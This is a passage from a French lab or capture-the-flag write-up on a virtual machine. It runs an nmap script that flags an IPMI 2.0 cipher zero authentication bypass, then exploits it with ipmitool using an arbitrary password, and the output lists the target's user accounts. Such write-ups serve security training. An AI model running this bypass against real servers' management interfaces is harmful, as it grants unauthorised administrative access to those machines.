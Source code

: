 Ou pour voir si le serveur est vulnérable à une faille de bypass d'authentification :

```console
$ sudo nmap -sU -sC --script ipmi-cipher-zero -p 623 192.168.56.104
Starting Nmap 7.95 ( https://nmap.org )
Nmap scan report for 192.168.56.104
Host is up (0.00035s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-cipher-zero: 
|   VULNERABLE:
|   IPMI 2.0 RAKP Cipher Zero Authentication Bypass
|     State: VULNERABLE
|     Risk factor: High
|       
|       The issue is due to the vendor shipping their devices with the
|       cipher suite '0' (aka 'cipher zero') enabled. This allows a
|       remote attacker to authenticate to the IPMI interface using
|       an arbitrary password. The only information required is a valid
|       account, but most vendors ship with a default 'admin' account.
|       This would allow an attacker to have full control over the IPMI
|       functionality
|           
|     References:
|       http://fish2.com/ipmi/cipherzero.html
|_      https://www.us-cert.gov/ncas/alerts/TA13-207A
MAC Address: 08:00:27:7B:5E:C8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
```

En se basant sur la page d'HackTricks et le retour du script Nmap, on en déduit cette commande :

```console
$ ipmitool -H 192.168.56.104 -U admin -P yolo -C 0 -I lanplus user list
ID  Name             Callin  Link Auth  IPMI Msg   Channel Priv Limit
1                    true    false      false      Unknown (0x00)
2   admin            true    false      true       ADMINISTRATOR
3   analiese         true    false      true       USER
4   briella          true    false      true       USER
5   richardson       true    false      true       USER
6   carsten          true    false      true       USER
7   sibylle          true    false      true       USER
8   wai-ching        true    false      true       USER
9   jerrilee         true    false      true       USER
10  glynn            true    false      true       USER
11  asia             true    false      true       USER
12  zaylen           true    false      true       USER
13  fabien           true    false      true       USER
14  merola           true    false      true       USER
15  jem              true    false      true       USER
16  riyaz            true    false      true       USER
17  laten            true    false      true       USER
18  cati             true    false      true       USER
19  rozalia          true    false      true       USER
20  palmer           true    false      true       USER
21  onida            true    false      true       USER
22  terra            true    false      true       USER
23  ranga            true    false      true       USER
24  harrie           true    false      true       USER
25  pauly            true    false      true       USER
26  els              true    false      true       USER
27  bqb              true    false      true       USER
28  karlotte         true    false      true       USER
```